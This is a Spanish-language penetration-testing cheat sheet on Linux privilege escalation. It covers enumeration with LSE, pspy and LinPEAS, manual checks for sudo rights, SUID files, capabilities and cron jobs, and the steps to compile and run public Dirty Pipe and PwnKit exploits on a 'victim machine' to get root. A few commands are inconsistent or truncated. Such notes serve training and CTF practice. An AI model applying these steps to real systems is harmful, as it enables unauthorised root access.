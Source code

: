 # Escalacion de privilegios Linux

Tags: #Linux #Escalada #Root #Privilegios #Capabilities #SUID #LSE #PSPY #LinPEAS #CRON #Netstat #GCC

* [Hacktricks](https://book.hacktricks.xyz/welcome/readme)
* [GTFOBins](https://gtfobins.github.io/)

## Enumeracion Tools Automaticas Enumeration

-   [LSE](https://github.com/diego-treitos/linux-smart-enumeration)

Esta herramienta nos ayudar a identificar vulnerabilidades para poderla explotar y escalar privilegios.
	**lse.sh** > Mirar en modo Raw
	Copiar la url resultante en Raw 

```bash
❯ wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh # Binario que debemos de descargar
❯ chmod +x lse.                     # Le damos permisos de ejecucion 
❯ ./lse.sh                          # Ejecutamos el binario

	# h = Panel de ayuda
``` 


-   [PSPY](https://github.com/DominicBreuker/pspy)

Esta herramienta nos ayudara a identificar tareas, procesos que se están ejecutando.
	Releases > Improved troubleshooting > **pspy64** -> Binario que debemos de descargar

```bash
❯ ./pspy                            # Ejecutamos el binario 
```


* [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)     ->     Para descargar el binario debemos de ir a **'Quick Start > the releases page > linpeas.sh'**
```bash
❯ chmod 777 linpeas.sh                   # Agregamos los privilegios para poder ejecutarlo en la maquina victima
❯ ./linpeas.sh                           # Para ejecutar el binario, podremos ver los diferentes colores y ahi podremos ver en donde es mas facil poder hacer el (PE=Privilege Escalation)

	# Podremos encontrar archivos o passwds

❯ ./linux-exploit-suggester.sh           # Podemos ver los CVE potenciales
```


## Manual 

```bash 
❯ groups <user>                           # Para ver a que grupos pertenece
```

```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```

```bash
❯ su root                                          # Para convertirnos en root y debemos de proporcionar una passwd
```

```bash
❯ uname -a                                         # Miramos informacion del Kernel
```

```bash
❯ id                                               # Para ver si estamos en un grupo especial
```

```bash
❯ ./bash -p                                        # Y asi obtenemos la bash del root, esta debe tener permisos SUID con la flag 's'

	# p = privilege
```

```bash
❯ netstat -nat                                    # Podemos ver los puertos abiertos internos 

	# 27017 = Mongo el cual podemos usar para buscar usuario y passwd
```


#### gcc

* [Dirty-Pipe-Arinerron](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit)

```bash
❯ which gcc                                       

	# /usr/bin/gcc = El Dirty-Pipe nos ayudara a sobre-escribir el ''/etc/passwd' 
	# En la pagina de Arinerron nos vamos a 'exploit.c' despues le damos a RAW y copiamos el contenido en un archivo llamado 'priv.c' en la maquina victima en el dir '/tmp'

❯ gcc privesc.c -o privesc                       # Asi lo compilamos en la maquina victima
❯ ./privesc.c                                    # Ejecutamos el binario y nos convierte en root, ya que coloca a 'aaron' como usuario root y su passwd 'aaron'
❯ su root                                        # Cambiar a usuario root con el nombre aaron seteado
```

#### Privilegios SUID

* [GTFOBins](https://gtfobins.github.io/)
* [Pkexec-PwnKit](https://github.com/berdav/CVE-2021-4034)

Podemos ver en esa pagina que comando podemos usar si encontramos un permiso SUID
```bash 
❯ find / -perm -4000 -ls 2>/dev/null               # Buscaremos por privilegios SUID, con ls = Miramos los privilegios y buscamos los de root

	# /usr/bin/pkexec = Vulnerable al PwnKit           
```

```bash
# Para el Pkexec en la maquina de atacante 
❯ git clone https://github.com/berdav/CVE-2021-4034          # Nos descargara un archivo el cual debemos de comprimir y pasarlo a la maquina victima por http
❯ zip -r comprimido.zip CVE-2021-4034/                       # Comprimimos el archivo CVE y le ponemos de nombre 'comprimido.zip' 

# Para el Pkexec en la maquina victima
❯ unzip comprimido.zip                                       # Descomprimimos el archivo .zip
❯ cd CVE-2021-4034/                                          # Nos dirigimos al directorio
❯ make                                                       # Compilamos todo lo que se encuentra ahi
❯ ./cve-2021-4034                                            # Ejecutamos el archivo .sh y con eso nos convertimos en root
```

#### Capabilities

```bash
❯ which getcap                             # Para ver si esta instalado el Getcap y mirar las capabilities

❯ getcap -r / 2>/dev/null                  # Listamos las capabilities que existan desde la raiz de forma recursiva y buscamos el comando aqui GTFOBins [GTFOBins](https://gtfobins.github.io/)

Tipos de capabilities:
	# /usr/bin/perl cap_setuid+ep = Esta capabilitie nos permite gestionar el UID y hacer que opere como root
	# /usr/bin/python3.9  cap_setuid+ep = Esta capabilitie nos permite gestionar el UID y hacer que opere como root
```


#### Tareas CRON

```bash
❯ crontab -l                         # Ver las tareas CRON (l=ele) del sistema
❯ cat /etc/crontab                   # Ver el archivo como se estan ejecutando las tareas CRON
```

* Podemos crearnos un Script Manual para ver las tareas que se están ejecutando y ver los procesos nuevos, antiguos, así como comandos y ver cual proceso nos puede ayudar a escalar privilegios. 
   Después encontramos un archivo que lo esta ejecutando root y otros lo pueden modificar 
```bash 
❯ nvim file.sh

	#!/bin/bash
	
	function ctrl_c(){
		echo -e "\\n[!] Saliendo \\n"
		tput cnorm; exit 1
	}
	
	# Ctrl + c
	trap ctrl_c INT
	tput civis
	old_process="$(ps -eo command)"

	while true; do
		new_process="$(ps -eo command)"
		diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker"
		old_process=$new_process
	done	
```

```bash
❯ systemctl list-timers              # Para ver cada cuanto tiempo se ejecuta una tarea
```

---